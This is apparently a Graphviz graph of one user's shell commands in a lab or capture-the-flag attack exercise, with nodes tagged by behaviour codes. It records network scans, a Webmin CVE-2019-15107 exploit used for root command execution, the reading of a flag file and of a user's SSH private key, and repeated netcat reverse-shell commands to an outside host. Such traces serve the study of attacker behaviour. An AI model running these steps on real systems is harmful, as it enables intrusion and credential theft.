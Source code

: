 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	3 [label="ls A10 "]
	4 [label="nmap A0 A1 "]
	6 [label="nmap 192.168.128.0 A0 A1 "]
	7 [label="nmap 192.168.128.0/24 A0 A1 "]
	9 [label="nmap 10.1.135.0/24 A0 A1 "]
	10 [label="nmap 10.1.135.0/ A0 A1 "]
	11 [label="nmap 10.1.135.0/16 A0 A1 "]
	13 [label="nmap 172.18.1.5 M0 "]
	14 [label="nmap -sV 172.18.1.5 M1 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 A10 "]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	18 [label="ls A10 "]
	20 [label="ls A10 "]
	21 [label="python CVE_2019_15107.py A13 "]
	22 [label="cat README.md A1 A9 A11 A12 A17 "]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 A13 "]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id A13 "]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	27 [label="ls /root A10 "]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ A10 A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd A10 A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd A13 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al A10 A13 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; A10 A13 "]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; A10 A13 "]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; A13 "]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; A10 A13 "]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; A13 "]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' A13 "]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' A13 "]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root A13 "]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls A10 A13 "]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello A13 "]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' A13 "]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' A13 "]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd A13 "]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag A1 A9 A11 A12 A13 A17 "]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file A13 "]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file A10 A13 "]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file A1 A9 A11 A12 A13 A17 "]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	62 [label="ls A10 "]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' A10 A13 "]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' A13 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' A13 "]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' M10 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	80 [label="ls A10 "]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' A10 A13 "]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' A10 A13 "]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' A10 A13 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' A10 A13 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' A10 A13 "]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' A10 A13 "]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' V10 "]
	90 [label="ls A10 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' A10 A13 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' A13 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	101 [label="ls A10 "]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	104 [label="ls A10 "]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	114 [label="ls A10 "]
	115 [label="python ssh2john.py M13 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
